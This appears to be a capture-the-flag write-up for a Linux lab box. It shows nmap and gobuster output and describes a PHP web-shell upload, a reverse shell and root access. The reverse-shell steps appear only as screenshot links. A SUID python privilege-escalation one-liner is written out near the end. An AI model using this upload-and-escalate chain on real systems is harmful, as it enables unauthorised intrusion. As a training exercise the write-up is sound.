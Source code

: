 
# NMAP

-> Standard Port scan res:

```BASH
└─$ nmap -T5 -A 10.10.242.137 -oN nmapScanStanrds.xml                  
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-27 17:15 IST
Warning: 10.10.242.137 giving up on port because retransmission cap hit (2).
Nmap scan report for 10.10.242.137
Host is up (0.28s latency).
Not shown: 930 closed tcp ports (reset), 68 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: HackIT - Home
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
Device type: general purpose
Running: Linux 4.X
OS CPE: cpe:/o:linux:linux_kernel:4.15
OS details: Linux 4.15
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 256/tcp)
HOP RTT       ADDRESS
1   203.83 ms 10.23.0.1
2   203.76 ms 10.10.242.137

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.72 seconds
```

-> All Ports scan res:

```bash 
# Nmap 7.95 scan initiated Fri Jun 27 17:17:19 2025 as: /usr/lib/nmap/nmap --privileged -T5 -p- -oN nmapScanFull.xml 10.10.242.137
Warning: 10.10.242.137 giving up on port because retransmission cap hit (2).
Nmap scan report for 10.10.242.137
Host is up (0.18s latency).
Not shown: 64700 closed tcp ports (reset), 833 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

# Nmap done at Fri Jun 27 17:27:20 2025 -- 1 IP address (1 host up) scanned in 600.57 seconds

```

-> Dirbusting with Gobuster:

```bash
└─$ gobuster dir -u 10.10.242.137 -w /home/pwn3r/hell/SecLists-master/Discovery/Web-Content/common.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.242.137
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /home/pwn3r/hell/SecLists-master/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/.htaccess            (Status: 403) [Size: 278]
/css                  (Status: 301) [Size: 312] [--> http://10.10.242.137/css/]
/index.php            (Status: 200) [Size: 616]
/js                   (Status: 301) [Size: 311] [--> http://10.10.242.137/js/]
/panel                (Status: 301) [Size: 314] [--> http://10.10.242.137/panel/]
/server-status        (Status: 403) [Size: 278]
/uploads              (Status: 301) [Size: 316] [--> http://10.10.242.137/uploads/]
Progress: 4750 / 4750 (100.00%)
===============================================================
Finished
===============================================================
```

-> we have `/panel` and `/uploads` dirs that can be used for uploading shell (php(php5 worked here)) and access from uploads subsequently.

> Note: Why PHP shell?, i dunno although Wappalyzer didn't work for server script but its most typical CTF challenge style where they have php shell technique to gain initial hold. Nevertheless we can ask from GPT as we found server atleast.
> ![5.png](./imgs/5.png)


-> `/panel`

![1.png](imgs/1.png)

-> `/uploads`

![2.png](./imgs/2.png)

-> got revere shell

![3.png](./imgs/3.png)

-> user.txt

![4.png](./imgs/4.png)

-> upgrading shell

![7.png](./imgs/7.png)

-> escalating privilege

![9.png](./imgs/9.png)

-> fortunately we have SUID bit set in python(/usr/bin/python), and rest is on GTFOBINS.

![10.png](./imgs/10.png)

![11.png](./imgs/11.png)

-> Payload: `/usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'`

![12.png](./imgs/12.png)

-> root flag

![8.png][./imgs/8.png]



